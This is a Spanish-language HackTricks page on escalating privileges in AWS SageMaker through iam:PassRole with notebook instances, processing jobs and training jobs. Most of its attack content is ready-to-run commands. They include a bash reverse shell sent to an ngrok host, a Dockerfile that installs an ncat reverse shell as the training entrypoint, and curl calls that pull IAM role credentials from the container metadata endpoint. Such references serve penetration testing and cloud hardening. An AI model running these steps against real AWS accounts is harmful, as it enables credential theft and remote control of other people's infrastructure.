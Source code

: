 # AWS - Escalada de privilegios en Sagemaker

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipo Rojo de HackTricks en AWS)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## sagemaker

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Comienza a crear un cuaderno con el Rol IAM para acceder adjunto a él:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
El siguiente contenido debe contener un campo `NotebookInstanceArn`, que contendrá el ARN de la nueva instancia de notebook creada. Luego podemos usar la API `create-presigned-notebook-instance-url` para generar una URL que podremos utilizar para acceder a la instancia de notebook una vez que esté lista:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Accede a la URL con el navegador y haz clic en `Abrir JupyterLab` en la esquina superior derecha, luego desplázate hacia abajo hasta la pestaña "Launcher" y, en la sección "Other", haz clic en el botón "Terminal".

Ahora es posible acceder a las credenciales de metadatos del Rol IAM.

**Impacto Potencial:** Escalada de privilegios al rol de servicio de sagemaker especificado.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Si ya hay **notebooks de Jupyter en ejecución** y puedes listarlos con `sagemaker:ListNotebookInstances` (o descubrirlos de cualquier otra manera), puedes **generar una URL para ellos, acceder a ellos y robar las credenciales como se indica en la técnica anterior**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Impacto Potencial:** Escalada de privilegios al rol de servicio de sagemaker adjunto.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Un atacante con esos permisos puede hacer que **sagemaker ejecute un trabajo de procesamiento** con un rol de sagemaker adjunto. El atacante puede indicar la definición del contenedor que se ejecutará en una **instancia de cuenta de ECS administrada por AWS**, y **robar las credenciales del rol de IAM adjunto**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impacto Potencial:** Escalada de privilegios al rol de servicio de sagemaker especificado.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Un atacante con esos permisos podrá crear un trabajo de entrenamiento, **ejecutando un contenedor arbitrario** en él con un **rol adjunto**. Por lo tanto, el atacante podrá robar las credenciales del rol.

{% hint style="warning" %}
Este escenario es más difícil de explotar que el anterior porque necesitas generar una imagen de Docker que enviará la shell inversa o credenciales directamente al atacante (no puedes indicar un comando de inicio en la configuración del trabajo de entrenamiento).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impacto Potencial:** Escalada de privilegios al rol de servicio de sagemaker especificado.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Un atacante con esos permisos (potencialmente) podrá crear un **trabajo de ajuste de hiperparámetros**, **ejecutar un contenedor arbitrario** en él con un **rol adjunto**.\
_No he explotado debido a la falta de tiempo, pero parece similar a los exploits anteriores, siéntase libre de enviar un PR con los detalles de la explotación._

# Referencias
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
